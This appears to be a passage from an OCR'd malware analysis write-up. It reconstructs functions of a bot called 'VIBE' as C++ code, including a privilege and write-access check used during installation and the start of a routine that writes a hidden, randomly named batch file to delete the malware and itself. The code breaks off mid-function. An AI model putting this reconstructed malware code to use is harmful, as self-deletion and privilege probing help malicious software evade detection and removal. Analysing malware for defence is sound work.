 ```cpp
        nullptr              // No template
    );
    
    if (hFile == INVALID_HANDLE_VALUE) {
        return false;
    }
    
    // Check if access denied
    if (GetLastError() == ERROR_ACCESS_DENIED) {
        return false;
    }
    
    CloseHandle(hFile);
    return true;
}
```

**Security Implications**:
- Determines privilege level
- Part of bot identification
- Tests write permissions
- Uses system directories

**Relationship to Other Functions**:
- Used during malware initialization
- Supports privilege-aware operations
- Part of installation process
- Influences bot behavior

### 14. VIBE::create_self_deletion_batch

**Purpose**: Creates and executes a batch file that deletes the malware executable and itself, implementing a secure self-deletion mechanism.

**Location**: Function located at address 0x403648

**Key Features**:
- Creates temporary batch file
- Uses random filename
- Implements deletion loop
- Hidden execution
- Removes file attributes

**Implementation Details**:
```cpp
HANDLE create_self_deletion_batch() {
    // Initialize random seed
    srand(GetTickCount());
    
    char exe_path[0x104] = {0};
    char batch_path[0x104] = {0};
    
    // Get paths
    GetModuleFileNameA(NULL, exe_path, 0x104);
    GetTempPathA(0x104, batch_path);
    
    // Create random batch filename
    strcat(batch_path, VIBE::generate_random_filename(10));
    strcat(batch_path, ".bat");
    
    // Create batch file
    FILE* batch = fopen(batch_path, "w");
    if (!batch) {
        return NULL;
    }
    
```